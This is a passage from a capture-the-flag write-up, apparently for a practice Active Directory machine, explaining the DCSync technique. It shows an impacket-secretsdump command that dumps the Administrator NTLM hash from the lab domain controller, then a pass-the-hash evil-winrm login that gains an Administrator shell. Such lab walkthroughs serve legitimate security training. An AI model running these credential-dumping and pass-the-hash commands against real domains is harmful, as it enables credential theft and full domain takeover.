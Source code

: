 
---

**Note:** `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` - these privileges in total are almost like `Domain Admins`. Allows you to
query Active Directory objects via the `MS-DRSR (DRSUAPI)` replication protocol, similar to how another domain controller does it. In other words, having
these privileges, a hacker has the ability to impersonate a domain controller that other domain controllers will trust and give all the requested information.

---

> Using the `T1003.006 - DCSync` technique from the `Credential Access` tactic

---

**Note:** `DCSync` - This is a technique where an attacker with `DS-Replication-Get-Changes`, `DS-Replication-Get-Changes-All` replication rights calls a special
`DrsGetNCChanges` function in the `MS-DRSR (DRSUAPI)` protocol and requests replication data from a domain controller. The domain controller trusts the attacker
with these privileges and returns the requested data.

---

> We use the `secretsdump` script from the `impacket` suite and request all information about the `Administrator` user:

```bash

impacket-secretsdump 'administrator.htb/ethan:limpbizkit'@10.10.11.42 -just-dc-user Administrator

```
```bash

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::

```

> The domain controller having received the request, returned to us the `NTLM` hash of the `Administrator` user. Using the received hash we connect under `Administrator`:

```bash

evil-winrm -i administrator.htb -u 'administrator.htb\Administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'

```
```bash

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
administrator\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```
> I get the last flag in the directory - `C:\Users\Administrator\Desktop`
